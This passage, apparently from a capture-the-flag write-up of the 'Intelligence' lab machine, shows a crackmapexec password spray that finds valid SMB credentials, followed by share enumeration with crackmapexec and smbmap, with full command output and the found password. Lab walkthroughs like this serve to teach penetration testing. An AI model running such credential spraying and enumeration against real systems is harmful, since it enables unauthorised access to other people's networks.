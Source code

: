 
Brute forcing with crackmapexec and got working smb creds.
```bash
❯ cme smb intelligence.htb  -u users.txt -p 'NewIntelligenceCorpUser9876' --continue-on-success
SMB         10.10.10.248    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
# ... [snip] ...
SMB         10.10.10.248    445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
# ... [snip] ...
```

```bash
❯ cme smb intelligence.htb  -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' --shares
SMB         10.10.10.248    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.248    445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
SMB         10.10.10.248    445    DC               [+] Enumerated shares
SMB         10.10.10.248    445    DC               Share           Permissions     Remark
SMB         10.10.10.248    445    DC               -----           -----------     ------
SMB         10.10.10.248    445    DC               ADMIN$                          Remote Admin
SMB         10.10.10.248    445    DC               C$                              Default share
SMB         10.10.10.248    445    DC               IPC$            READ            Remote IPC
SMB         10.10.10.248    445    DC               IT              READ            
SMB         10.10.10.248    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.10.248    445    DC               SYSVOL          READ            Logon server share 
SMB         10.10.10.248    445    DC               Users           READ
```

There are 2 shares in SMB that looks interesting
```bash
❯ smbmap -H 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -r \IT
[+] IP: 10.10.10.248:445	Name: intelligence.htb                                  
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	IT                                                	READ ONLY	
	.\IT\*
	dr--r--r--                0 Mon Apr 19 06:20:58 2021	.
	dr--r--r--                0 Mon Apr 19 06:20:58 2021	..
	fr--r--r--             1046 Mon Apr 19 06:20:58 2021	downdetector.ps1
❯ smbmap -H 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -r \Users
[+] IP: 10.10.10.248:445	Name: intelligence.htb                                  
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	Users                                             	READ ONLY	
	.\Users\*
	dw--w--w--                0 Mon Apr 19 06:50:26 2021	.
	dw--w--w--                0 Mon Apr 19 06:50:26 2021	..
	dr--r--r--                0 Mon Apr 19 05:48:39 2021	Administrator
	dr--r--r--                0 Mon Apr 19 08:46:30 2021	All Users
	dw--w--w--                0 Mon Apr 19 07:47:40 2021	Default
	dr--r--r--                0 Mon Apr 19 08:46:30 2021	Default User
	fr--r--r--              174 Mon Apr 19 08:45:17 2021	desktop.ini
	dw--w--w--                0 Mon Apr 19 05:48:39 2021	Public
	dr--r--r--                0 Mon Apr 19 06:50:26 2021	Ted.Graves
	dr--r--r--                0 Mon Apr 19 06:21:46 2021	Tiffany.Molina
```
